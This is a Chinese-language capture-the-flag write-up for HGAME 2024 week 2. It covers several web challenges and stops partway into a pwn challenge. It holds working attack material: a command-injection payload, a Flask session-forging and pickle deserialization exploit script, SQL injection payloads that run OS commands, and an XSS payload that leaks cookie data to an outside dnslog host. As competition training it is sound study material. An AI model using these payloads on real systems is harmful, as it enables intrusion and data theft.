原地址为<https://vidar-team.feishu.cn/docx/TgRvdflpdosvCjxizpxcs7wqnOb>。

---

* **URL**: <https://hgame.vidar.club/>
* **Username**: csmantle (Individual participation)
* **Start Time**: 2024-02-05 20:00:00
* **End Time**: 2024-02-14 20:00:00
* **Status:** AAK @ 2024-02-12 09:1?:??

---

- [Web](#web)
  - [What does the cow say?](#what-does-the-cow-say)
  - [myflask](#myflask)
  - [search4member](#search4member)
  - [Select More Courses](#select-more-courses)
  - [梅开二度](#梅开二度)
- [Pwn](#pwn)
  - [ShellcodeMaster](#shellcodemaster)
  - [Elden Ring II](#elden-ring-ii)
  - [fastnote](#fastnote)
  - [old\_fastnote](#old_fastnote)
- [Reverse](#reverse)
  - [arithmetic](#arithmetic)
  - [ezcpp](#ezcpp)
  - [babyre](#babyre)
  - [babyAndroid](#babyandroid)
- [Crypto](#crypto)
  - [midRSA （非预期）](#midrsa-非预期)
  - [backpack （非预期）](#backpack-非预期)
  - [midRSA revenge](#midrsa-revenge)
  - [backpack revenge](#backpack-revenge)
  - [babyRSA](#babyrsa)
  - [奇怪的图片 plus](#奇怪的图片-plus)
- [Misc](#misc)
  - [ek1ng\_want\_girlfriend](#ek1ng_want_girlfriend)
  - [龙之舞](#龙之舞)
  - [ezWord](#ezword)
  - [我要成为华容道高手](#我要成为华容道高手)

---

## Web

### What does the cow say?

> the cow want to tell you something

OS 命令注入。

<!-- seo-excerpt-separator -->

测试：黑名单 WAF（过滤了"flag"等）

backtick 构造字符串；tac 读取。

找 flag：

```bash
`ls /`
```

```plain-text
________________________________________
/ app bin boot dev etc flag_is_here home \
| lib lib64 media mnt opt proc root run  |
\ sbin srv sys tmp usr var               /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

```bash
$( ls `e'c'ho /fl``e'c'ho ag_``e'c'ho is_here` )
```

```plain-text
_____________
< flag_c0w54y >
 -------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

那么构造最终 payload：

```bash
$( tac `e'c'ho /fl``e'c'ho ag_``e'c'ho is_here/fl``e'c'ho ag_c0``e'c'ho w54y` )
```

`hgame{C0wsay_be_c4re_aB0ut_ComMand_Injecti0n}`

### myflask

> 善用搜索引擎，容器中的 Python 版本为 3.11

提供了源码。

```python
# app.py

import pickle
import base64
from flask import Flask, session, request, send_file
from datetime import datetime
from pytz import timezone

currentDateAndTime = datetime.now(timezone('Asia/Shanghai'))
currentTime = currentDateAndTime.strftime("%H%M%S")

app = Flask(__name__)
# Tips: Try to crack this first ↓
app.config['SECRET_KEY'] = currentTime
print(currentTime)

@app.route('/')
def index():
    session['username'] = 'guest'
    return send_file('app.py')

@app.route('/flag', methods=['GET', 'POST'])
def flag():
    if not session:
        return 'There is no session available in your client :('
    if request.method == 'GET':
        return 'You are {} now'.format(session['username'])
    
    # For POST requests from admin
    if session['username'] == 'admin':
        pickle_data=base64.b64decode(request.form.get('pickle_data'))
        # Tips: Here try to trigger RCE
        userdata=pickle.loads(pickle_data)
        return userdata
    else:
        return 'Access Denied'
 
if __name__=='__main__':
    app.run(debug=True, host="0.0.0.0")
```

这个 SECRET_KEY 模式固定，可以爆破。下面需要伪造 admin 的 session 然后进行 pickle 反序列化做 RCE。这里我们只需要打开/flag 文件就行，Flask 会帮我们读取其中内容。

那么不难写出 exp：

```python
import base64
import itertools as it
import urllib.parse as up

import flask_unsign
import requests as req
from pwn import *

class RCE:
    def __reduce__(self):
        return (open, ("/flag", "r"))

WORDLIST_IT = (
    f"{hh:02d}{mm:02d}{ss:02d}"
    for (hh, mm, ss) in it.product(range(0, 24), range(0, 60), range(0, 60))
)
REMOTE_URL = "http://106.15.72.34:31490"

guest_cookie = req.get(up.urljoin(REMOTE_URL, "/")).cookies["session"]
info(f"Guest cookie: {guest_cookie}")

info("Cracking the secret...")
secret = flask_unsign.Cracker(guest_cookie, quiet=True).crack(WORDLIST_IT)
success(f"Secret: {secret}")

info("Crafting new session cookie...")
crafted_session = flask_unsign.sign({"username": "admin"}, secret, legacy=True)
info(f"Crafted session: {crafted_session}")

resp = req.post(
    up.urljoin(REMOTE_URL, "/flag"),
    cookies={"session": crafted_session},
    data={"pickle_data": base64.b64encode(pickle.dumps(RCE())).decode()},
)
success(f"Flag: {resp.text}")
```

```plain-text
PS D:\Workspace\rev\hgame_2024\week_2\myflask> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_2/myflask/sol.py
[*] Guest cookie: eyJ1c2VybmFtZSI6Imd1ZXN0In0.ZcG51g.4vBfd3C5WcrURp36iZDxJzor-wU
[*] Cracking the secret...
[+] Secret: 121153
[*] Crafting new session cookie...
[*] Crafted session: eyJ1c2VybmFtZSI6ImFkbWluIn0.ZcGyJw.kSg86oz5h5iBWCsug6BrlKtxF1Q
[+] Flag: hgame{1d66ce57a408ffea9875449abd7d9fd17cb9ad09}
PS D:\Workspace\rev\hgame_2024\week_2\myflask>
```

`hgame{1d66ce57a408ffea9875449abd7d9fd17cb9ad09}`

### search4member

> Vidar-Team have so much members,so 1ue write an api to search...

看到一个很明显的 SQL 注入点（字符串拼接）：

```java
@Controller
public class SearchController {

    @Inject
    private DbManager dbManager;

    @Mapping("/")
    public ModelAndView search(@Param(defaultValue = "web") String keyword) throws SQLException {
        List<String> results = new ArrayList<>();
        if (keyword != null & !keyword.equals("")) {
            String sql = "SELECT * FROM member WHERE intro LIKE '%" + keyword + "%';";
            DataSource dataSource = dbManager.getDataSource();
            Statement statement = dataSource.getConnection().createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            while (resultSet.next()) {
                results.add(resultSet.getString("id") + " : "
                        + resultSet.getString("intro") + " : "
                        + resultSet.getString("blog"));
            }
            resultSet.close();
            statement.close();
        }
        ModelAndView model = new ModelAndView("search.ftl");
        model.put("results", results);
        return model;
    }
}
```

确认注入点：

`http://106.14.57.14:32143/?keyword=web%27+OR+%27%25%27%3D%27`

<https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/>

Stacked queries 可解。

Payloads:

```plain-text
web%'; CREATE ALIAS RCE3 AS $$ String e(String cmd,String d) throws java.io.IOException {return (new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter(d).next();}$$; INSERT INTO member(id, intro, blog) VALUES ('Mantle1', 'Hacker1', RCE3('id','\\A')); --

web%'; INSERT INTO member(id, intro, blog) VALUES ('Mantle2', 'Hacker2', RCE3('cat /flag','\\A')); --
```

最后搜索 Hacker 即可。



`hgame{48b5cc1bc1e7923abbfa71ef6f46fcf93f58782d}`

### Select More Courses

> ma5hr00m wants to take more courses, but he may be racing against time. Can you help him?
> （数据库初始化需要时间，请稍作等待）



需要爆破弱密码。字典选 SecLists 里面随意一个。

<https://github.com/danielmiessler/SecLists>



密码：`qwert123`。

```plain-text
PS C:\Users\Mantle Bao> curl -v -X GET -H "Cookie: session=MTcwNzIyNTIxN3xEWDhFQVFMX2dBQUJFQUVRQUFBcV80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQW9BQ0cxaE5XaHlNREJ0fMnJIj0W2h6JM9oN6h1z9Dv9eogs11j4JNXvF3yewflP" "http://106.15.72.34:30618/expand"
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 106.15.72.34:30618...
* Connected to 106.15.72.34 (106.15.72.34) port 30618
> GET /expand HTTP/1.1
> Host: 106.15.72.34:30618
> User-Agent: curl/8.4.0
> Accept: */*
> Cookie: session=MTcwNzIyNTIxN3xEWDhFQVFMX2dBQUJFQUVRQUFBcV80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQW9BQ0cxaE5XaHlNREJ0fMnJIj0W2h6JM9oN6h1z9Dv9eogs11j4JNXvF3yewflP
>
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Date: Tue, 06 Feb 2024 13:16:25 GMT
< Transfer-Encoding: chunked
<
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <meta name="description" content="Challenge">
  <title>选课扩学分申请</title>
</head>
<body>
  <header>
    <div id="h1-container">
      <h1>选课扩学分申请</h1>
    </div>
  </header>
  <div id="main-container">
    <main>
      <div class="detail">
        <p>
          2023-2024 学年 2 学期
          <span class="red-text">第2轮</span>
          <b>本学期扩学分要求</b> 要求最低绩点
          <span class="red-text">3.5</span>
          当前绩点
          <span id="credit-limit" class="red-text">3</span>
        </p>
      </div>
      <div id="command-container">
        <button class="command" onclick="submitApplication()">申请</button>
        <button class="command" onclick="cancelApplication()">取消</button>
      </div>
    </main>
  </div>
</body>
<script>
alert("阿菇的提示：Race against time!");

function submitApplication() {
  const requestBody = {
    username: "ma5hr00m"
  };

  fetch("/api/expand", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify(requestBody)
  })
    .then(response => response.json())
    .then(data => {
      console.log(data)
      alert(data.message);
    })
    .catch(error => {
      console.error("Error:", error);
    });
}

function cancelApplication() {
  window.location.href = ("/");
}
</script>
</html>
<style>
* {
  margin: 0;
  padding: 0;
  box-sizing: border-box;
}
  body {
  font-size: 16px;
  background: #f0f0f0;
}
header {
  display: flex;
  justify-content: center; align-items: center;
  padding: .75rem 10rem;
  background-color: #0483d4;
}
#h1-container {
  display: flex;
  width: 100%; height: 100%;
  white-space: nowrap;
}
h1 {
  font-size: 1.2rem;
  font-weight: 400;
  color: #fff;
}

#main-container {
  display: flex;
  justify-content: center; align-items: center;
  padding: 1rem 10rem;
}
main {
  display: flex;
  padding: 1rem;
  width: 100%; height: 100%;
  justify-content: center; align-items: center;
  background: #fff;
}
#command-container {
  display: flex;
  justify-content: end; align-items: center;
  width: 100%;
}
.command {
  padding: .4rem .8rem;
  background: #fff;
  border: solid 1px #ccc;
  cursor: pointer;
  transition: all .2s ease-out;
}
.command:hover {
  background: #337ab7;
  color: #fff;
}
.command:nth-child(1) {
  border-radius: 4px 0 0 4px;
  border-right: none;
}
.command:nth-child(2) {
  border-radius: 0 4px 4px 0;
}

.detail {
  width: fit-content;
  text-wrap: nowrap;
}
p {
  font-size: .8rem;
}
.red-text {
  color: red;
}
</style>* Connection #0 to host 106.15.72.34 left intact
PS C:\Users\Mantle Bao>
```

"Race against time"?

猜测需要搞数据库事务的 race condition。

盲猜扩学分逻辑如下：

1. 事务开始
2. 获取当前学分；加法；写回
3. 获取绩点
4. 判断绩点是否大于 3.5：是前往 5，否前往 6
5. Commit
6. Rollback

那么如果数据库的隔离级别不够高的话，高并发下就会有明显的脏读。

构造大量并发请求：






获得 flag。



`hgame{5ak_p45sW0rD_&_r4Ce_c0nDiT10n}`

### 梅开二度

> 

Golang SSTI + XSS

<https://www.onsecurity.io/blog/go-ssti-method-research/>

测试 Payload：

```plain-text
tmpl={{.Query `hack`}}
hack=<script>alert(1)</script>
```

`http://106.14.57.14:31181/?tmpl=%7B%7B.Query%20%60hack%60%7D%7D&hack=%3Cscript%3Ealert%281%29%3C%2fscript%3E`



不能直接读取文件，而且 cookies 有 HttpOnly 选项。但是 fetch 会修改当前环境中的 cookies，后续的 fetch 会带上之前 fetch 到的 cookie。那么我们只需要首先 fetch 一次/flag，然后再用 SSTI 将服务端 request header 里的 Cookie 字段拿到就行了。

不出网，用 DNS 回显。

没法整个 flag 输出，而且域名大小写不敏感。考虑逐位爆破。

最终 XSS 所执行的脚本：

```javascript
fetch("http://127.0.0.1:8080/flag").then((r) => {
    fetch("http://127.0.0.1:8080/?tmpl=%7B%7B.GetHeader%20%60Cookie%60%7D%7D").then((r1) => {
        r1.text().then((r2) => {
            fetch("http://b-" + r2.charCodeAt(0).toString() + ".37lw1m.dnslog.cn");
        });
    });
});
```

最小化并编码后的 XSS Payload：

```plain-text
http://127.0.0.1:8080/?tmpl=%7B%7B.Query%20%60hack%60%7D%7D&hack=%3Cscript%3Efetch%28%22http%3A%2f%2f127.0.0.1%3A8080%2fflag%22%29.then%28%28r%29%3D%3E%7Bfetch%28%22http%3A%2f%2f127.0.0.1%3A8080%2f%3Ftmpl%3D%257B%257B.GetHeader%2520%2560Cookie%2560%257D%257D%22%29.then%28%28r1%29%3D%3E%7Br1.text%28%29.then%28%28r2%29%3D%3E%7Bfetch%28%22http%3A%2f%2fb-%22%2br2.charCodeAt%280%29.toString%28%29%2b%22.37lw1m.dnslog.cn%22%29%7D%29%7D%29%7D%29%3C%2fscript%3E
```

让 bot 访问：

```plain-text
http://47.102.130.35:31707/bot?url=http%3A%2f%2f127.0.0.1%3A8080%2f%3Ftmpl%3D%257B%257B.Query%2520%2560hack%2560%257D%257D%26hack%3D%253Cscript%253Efetch%2528%2522http%253A%252f%252f127.0.0.1%253A8080%252fflag%2522%2529.then%2528%2528r%2529%253D%253E%257Bfetch%2528%2522http%253A%252f%252f127.0.0.1%253A8080%252f%253Ftmpl%253D%25257B%25257B.GetHeader%252520%252560Cookie%252560%25257D%25257D%2522%2529.then%2528%2528r1%2529%253D%253E%257Br1.text%2528%2529.then%2528%2528r2%2529%253D%253E%257Bfetch%2528%2522http%253A%252f%252fb-%2522%252br2.charCodeAt%25280%2529.toString%2528%2529%252b%2522.37lw1m.dnslog.cn%2522%2529%257D%2529%257D%2529%257D%2529%253C%252fscript%253E
```

爆破时将上面 payload 中的 `b` 和 `0` 都改为当前欲获取字符的下标。如果下标超出会返回 nan，这时候表明所有位置的字符均已找到。

```python
import requests as req

TEMPLATE = r"http://47.102.130.35:31707/bot?url=http%3A%2f%2f127.0.0.1%3A8080%2f%3Ftmpl%3D%257B%257B.Query%2520%2560hack%2560%257D%257D%26hack%3D%253Cscript%253Efetch%2528%2522http%253A%252f%252f127.0.0.1%253A8080%252fflag%2522%2529.then%2528%2528r%2529%253D%253E%257Bfetch%2528%2522http%253A%252f%252f127.0.0.1%253A8080%252f%253Ftmpl%253D%25257B%25257B.GetHeader%252520%252560Cookie%252560%25257D%25257D%2522%2529.then%2528%2528r1%2529%253D%253E%257Br1.text%2528%2529.then%2528%2528r2%2529%253D%253E%257Bfetch%2528%2522http%253A%252f%252f!!REPLACE!!-%2522%252br2.charCodeAt%2528!!REPLACE!!%2529.toString%2528%2529%252b%2522.37lw1m.dnslog.cn%2522%2529%257D%2529%257D%2529%257D%2529%253C%252fscript%253E"

for i in range(64):
    print(f"Trying {i}")
    url = TEMPLATE.replace("!!REPLACE!!", str(i))
    res = req.get(url)
    input("Press Enter to continue...\n")
```



<https://cyberchef.org/#recipe=From_Decimal('Line%20feed',false)URL_Decode()&input=MTA0CjEwMwo5NwoxMDkKMTAxCjM3CjU1CjY2CjU2CjEwMAoxMDAKNTMKNTMKNTAKMTAyCjQ5CjEwMAo5OQo1NQoxMDIKNTcKNTIKNDgKNTYKNTUKMTAxCjUzCjk4CjEwMAo0OQo0OAoxMDIKOTcKMTAxCjUwCjU1CjU3CjUwCjUzCjk5CjUzCjU0CjU3CjUxCjUxCjU0CjU1CjUyCjM3CjU1CjY4CjM3CjQ4CjY1>

`hgame{8dd552f1dc7f94087e5bd10fae27925c56933674}`

## Pwn

### ShellcodeMaster

> You must be a shellcode master

看 seccomp：

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster$ seccomp-tools dump ./vuln
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0004
 0002: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0004
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0004: 0x06 0x00 0x00 0x00000000  return KILL
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster$
```

禁了 execve 和 execveat

```plain-text
mantlebao@LAPTOP-RONG-BAO:~$ cat /proc/1624/maps
00400000-00401000 r--p 00000000 00:55 11540474045147377                  /mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln
00401000-00402000 r-xp 00001000 00:55 11540474045147377                  /mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln
00402000-00403000 r--p 00002000 00:55 11540474045147377                  /mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln
00403000-00404000 r--p 00002000 00:55 11540474045147377                  /mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln
00404000-00405000 rw-p 00003000 00:55 11540474045147377                  /mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln
